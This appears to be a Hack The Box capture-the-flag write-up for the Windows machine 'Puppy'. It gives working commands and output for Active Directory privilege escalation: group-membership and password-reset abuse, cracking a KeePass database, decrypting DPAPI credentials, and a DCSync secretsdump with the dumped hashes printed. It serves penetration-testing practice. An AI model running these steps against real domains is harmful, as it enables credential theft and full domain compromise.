




<div align="center"> <script src="https://www.hackthebox.eu/badge/1670709"></script> </div>

---
`Puppy` is a medium windows machine on `HTB Season 8` .We start off with bloodhound python using the credentials given for it's an assumed breach 


# Port Scan
Default all port scan 
```sh
nmap --min-rate 10000 -p- 10.129.232.75 -o nmap/nmap-default-scan

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 13:51 EAT
Nmap scan report for 10.129.232.75
Host is up (0.44s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
2049/tcp  open  nfs
3260/tcp  open  iscsi
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49685/tcp open  unknown
55037/tcp open  unknown
60516/tcp open  unknown

```

Udp port scan 
```sh
nmap --min-rate 10000 -p- -sU 10.129.232.75 -o nmap/nmapUdp-default-scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 14:20 EAT
Nmap scan report for puppy.htb (10.129.232.75)
Host is up (0.38s latency).
Not shown: 65529 open|filtered udp ports (no-response)
PORT     STATE SERVICE
53/udp   open  domain
88/udp   open  kerberos-sec
111/udp  open  rpcbind
123/udp  open  ntp
389/udp  open  ldap
2049/udp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
```

Default scripts scan 
```sh
nmap -sC -sV -vv 10.129.232.75 -oA nmap/nmap-script-scan

...[snip]...

PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-20 18:03:20Z)
111/tcp  open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
2049/tcp open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp open  iscsi?        syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m58s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32931/tcp): CLEAN (Timeout)
|   Check 2 (port 16992/tcp): CLEAN (Timeout)
|   Check 3 (port 19274/udp): CLEAN (Timeout)
|   Check 4 (port 10811/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-05-20T18:05:37
|_  start_date: N/A


```


# smb
The machine is an assumed breach and hack the box gives us creds of a low privileged user
```
Machine Information
As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!
```

The port scan returned an open smb server and since we have some credentials lets verify them.
```sh
nxc smb 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!'
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 

```

The creds are valid and we also get the machine name `DC` and the domain name `puppy.htb` we add this to our `/etc/hosts`
```
10.129.232.75	puppy.htb dc.puppy.htb dc 
```

We list the shares 
```sh
nxc smb 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!' --shares
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.232.75   445    DC               [*] Enumerated shares
SMB         10.129.232.75   445    DC               Share           Permissions     Remark
SMB         10.129.232.75   445    DC               -----           -----------     ------
SMB         10.129.232.75   445    DC               ADMIN$                          Remote Admin
SMB         10.129.232.75   445    DC               C$                              Default share
SMB         10.129.232.75   445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.129.232.75   445    DC               IPC$            READ            Remote IPC
SMB         10.129.232.75   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.232.75   445    DC               SYSVOL          READ            Logon server share 

```

There is a non-default share `DEV` but we don't have the read permission.
I want to try bruteforcing the password we have with the users on the box,
for that we first need a list of valid users on the box.
```sh
nxc smb 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!' --users
```

Using the command we get this users : 
```
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

That was a dead end no password repeat but at least we now have the users.
For now smb it's a dead end.

# Nfs
Both Tcp and Udp scans show that we have `nfs` port open.
- The Network File System (NFS) is a distributed file system protocol that allows a client to access files over a network as if those files were on the client’s local file system.
- **NFS** is a system designed for **client/server** that enables users to seamlessly access files over a network as though these files were located within a local directory.

## Enumeration
```sh
showmount -e 10.129.232.75
Export list for 10.129.232.75:

```

Here are some links to nfs enumeration.
- https://medium.com/@karan_shergill/network-file-system-nfs-enumeration-exploitation-14c154a4d2c1
- https://book.hacktricks.wiki/en/network-services-pentesting/nfs-service-pentesting.html

# BloodHound
We try getting a shell :
```sh
nxc winrm 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!'
WINRM       10.129.232.75   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.129.232.75   5985   DC               [-] PUPPY.HTB\levi.james:KingofAkron2025!

```


Since we don't have a shell we use bloodhound python .
```sh
bloodhound-python -d puppy.htb -ns 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!' -c all

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
WARNING: DCE/RPC connection failed: [Errno Connection error (10.129.232.75:445)] timed out
INFO: Done in 01M 59S
```

After uploading the files in bloodhound we start by marking the user `levi.james` as owned then use outbound to see what we can do.


We have `levi.james` as owned who is a member of `HR@puppy.htb` and with that we have `GenericWrite` over the `DEVELOPERS@puppy.htb` group.  
Bloodhound does guide us on how to abuse this in a linux environment.
- `GenericWrite` to a group allows you to directly modify group membership of the group.
```sh
net rpc group addmem "DEVELOPERS" "LEVI.JAMES" -U "puppy.htb"/"levi.james"%"KingofAkron2025!" -S "10.129.232.75"
```

Then we can  verify that the user was successfully added to the group:
```sh
net rpc group members "developers" -U "puppy.htb"/"levi.james"%"KingofAkron2025!"  -S "10.129.232.75"

PUPPY\levi.james
PUPPY\ant.edwards
PUPPY\adam.silver
PUPPY\jamie.williams

```

Now that we are members of the `Developers` group we can try reading the `DEV` share that we had in smb.
```sh
nxc smb 10.129.232.75 -u 'levi.james' -p 'KingofAkron2025!' --shares
```

We connect to smb using `smbclient` 
```sh
smbclient //10.129.255.222/DEV -U levi.james%KingofAkron2025!
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Mar 23 10:07:57 2025
  ..                                  D        0  Sat Mar  8 19:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 10:09:12 2025
  Projects                            D        0  Sat Mar  8 19:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 05:25:46 2025

		5080575 blocks of size 4096. 1546127 blocks available
smb: \> get recovery.kdbx
getting file \recovery.kdbx of size 2677 as recovery.kdbx (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> get KeePassXC-2.7.9-Win64.msi
parallel_read returned NT_STATUS_IO_TIMEOUT

```

We have two files : `KeePassXC-2.7.9-Win64.msi ` and `recovery.kdbx`.
```sh
file recovery.kdbx 
recovery.kdbx: Keepass password database 2.x KDBX
```
Keepass stores the credentials in a .kdbx database file.
- **keepassxc-cli** is the command line interface for the **KeePassXC** password manager. It provides the ability to query and modify the entries of a KeePass database, directly from the command line.
Here is a good [read](https://github.com/keepassxreboot/keepassxc/issues/4049) on how to export the contents of the database.
```sh
keepassxc-cli export -f xml recovery.kdbx > recovery_dump.xml
Enter password to unlock recovery.kdbx: 
Error while reading the database: Invalid credentials were provided, please try again.
If this reoccurs, then your database file may be corrupt. (HMAC mismatch)

```

But we need a password and for this we can use [keepass4brute](https://github.com/r3nt0n/keepass4brute)
```sh
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt 
keepass4brute 1.3 by r3nt0n
https://github.com/r3nt0n/keepass4brute

[+] Words tested: 36/14344392 - Attempts per minute: 40 - Estimated time remaining: 35 weeks, 4 days
[+] Current attempt: liverpool

[*] Password found: liverpool

```

The password is `liverpool`  :)
```

JAMIE WILLIAMSON:JamieLove2025!
ADAM SILVER:HJKL2025!
ANTONY C. EDWARDS:Antman2025!
STEVE TUCKER:Steve2025!
SAMUEL BLAKE:ILY2025!

```

We match this with the valid users we have .
```
ant.edwards:Antman2025!
adam.silver:HJKL2025!
jamie.williams:JamieLove2025!
```

Then use `nxc` to bruteforce and get the valid creds.
```sh
nxc smb 10.129.232.75 -u users.txt -p passwd.txt --continue-on-success
```

From the output we get `ant.edwards` can authenticate.
But still we don't get a shell thus we go back to bloodhound and this time mark `ant.edwards` as owned.


Now we have `ant.edwards` as owned who is a member of `Senior devs` and with that we have `GenericAll` over the user `adam.silver` who is a member of `Remote managemente users`.

# GenericAll 
This gives Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.
Bloodhound abuse suggests :
- Targeted Kerberoast
- Force Change Password
- Shadow Credentials attack 
## Password Change
Let's change the password to `P@ssw0rd1!`
```sh
net rpc password "adam.silver" "P@ssw0rd1!" -U "puppy.htb"/"ant.edwards"%"Antman2025!" -S "10.129.255.222"

# Using BloodyAD
bloodyAD --host 10.129.255.222 -d puppy.htb -u ant.edwards -p 'Antman2025!' set password 'adam.silver' 'P@ssw0rd1!'
[+] Password changed successfully!

```

The command returns no error but when we try to authenticate we get an error.
We then try authenticating using smb and get:
```sh
nxc smb 10.129.255.222 -u adam.silver -p P@ssw0rd1!
SMB         10.129.255.222  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.255.222  445    DC               [-] PUPPY.HTB\adam.silver:P@ssw0rd1! STATUS_ACCOUNT_DISABLED 
```

## Enable the Account
The account is disabled, to enable it : 
```sh
ldapsearch -x -H ldap://10.129.255.222 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=adam.silver)" dn userAccountControl
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=adam.silver)
# requesting: dn userAccountControl 
#

# Adam D. Silver, Users, PUPPY.HTB
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
userAccountControl: 66050

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3

```

We create the file `enable_adam.ldif` : 
```
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048

```

Then use `ldapmodify`
```sh
ldapmodify -x -H ldap://10.129.255.222 -D 'ant.edwards@puppy.htb' -w 'Antman2025!' -f enable_adam.ldif
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"

```

```sh
 nxc winrm 10.129.255.222 -u adam.silver -p P@ssw0rd1!
WINRM       10.129.255.222  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:PUPPY.HTB)
WINRM       10.129.255.222  5985   DC               [+] PUPPY.HTB\adam.silver:P@ssw0rd1! (Pwn3d!)

```

We could have also used `BloodyAD` 
```sh
bloodyAD --host 10.129.255.222 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'adam.silver' -f ACCOUNTDISABLE
```

# Privilege escalation
After changing the password and activating the account we get a shell using winrm 
```sh
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows

```

On the `C:\` directory we have a backup folder and in it we have a zip file `site-backup-2024-12-30.zip` . We download and unzip and in it we have the file `nms-auth-config.xml.bak` . In it we get the credentials for the user `steph.cooper`.
```xml
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
```

The user `steph.cooper` is also a member of `remote management`


We get a shell now as the user `steph.cooper`.

## Dpapi
The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password.  

Find master keys:
```powershell
Get-ChildItem C:\Users\$USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\$USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\$USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\$USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\$USER\AppData\Roaming\Microsoft\Protect\${SID}
Get-ChildItem -Hidden C:\Users\$USER\AppData\Local\Microsoft\Protect\${SID}
```

Let's get the master keys.
First i need the `SID` of the user.
```powershell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\protect> gci


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107

```


Now in the directory if we only use `gci` to list we will get nothing thus we use `gci -force` to show hidden files : 
```powershell
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107> gci -force


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred

```

This file is encrypted by the users password.To download the file or copy the contents of the file i will do this :>>
- On the `winrm` shell : 
```powershell
# convert to base64
certutil -encode 556a2412-1275-4ccf-b721-e6a0b4f90407 556a2412-1275-4ccf-b721-e6a0b4f90407.zip

# we copy the contents of the base64 file
gc 556a2412-1275-4ccf-b721-e6a0b4f90407.zip

```

- On my machine : 
```sh
# add to our attack machine
vi hello.b64

# decode the file to get the initial master key
base64 -d hello.b64 > 556a2412-1275-4ccf-b721-e6a0b4f90407
```

We go where dpapi stores blobs.
Then in the `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials` folder we have the file `C8D69EBE9A43E9DEBF6B5FBD48B521B9` 
```powershell
# Encode it
certutil -encode C8D69EBE9A43E9DEBF6B5FBD48B521B9 8D69EBE9A43E9DEBF6B5FBD48B521B9.zip

# Copy the contents
get-content C8D69EBE9A43E9DEBF6B5FBD48B521B9.zip

```

We have found the `masterkey` (encryption key) file and also the `credential blob` file which contains encrypted user credentials.
- Master key - A secret key used for encrypting and dencrypting data with DPAPI
- Credential blob - Contains user credentials protected by dpapi

With the two files we can now use `impacket-dpapi` to decrypt the credentials.
```sh
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

```

Decrypted key: `0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84`

Now we use the key to decrypt the DPAPI `credential blob` file.
```sh
impacket-dpapi credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```

The decrypt was successful and we get this credentials :
- Username : `steph.cooper_adm`
- Password : `FivethChipOnItsWay2025!`

With the new set of credentials we go to bloodhound and see the privileges the  new user has.


We first get that the user `steph.cooper_adm` is a member of the `administrators` group and with that we have `owrnership` permissions over the domain `puppy.htb`.  
Bloodhound abuse suggests performing a `DCSync attack` to extract the `NTLM` hash of the Administrator account.
```
impacket-secretsdump puppy.htb/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.129.199.37
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
krbtgt:aes256-cts-hmac-sha1-96:f2443b54aed754917fd1ec5717483d3423849b252599e59b95dfdcc92c40fa45
krbtgt:aes128-cts-hmac-sha1-96:60aab26300cc6610a05389181e034851
krbtgt:des-cbc-md5:5876d051f78faeba
PUPPY.HTB\levi.james:aes256-cts-hmac-sha1-96:2aad43325912bdca0c831d3878f399959f7101bcbc411ce204c37d585a6417ec
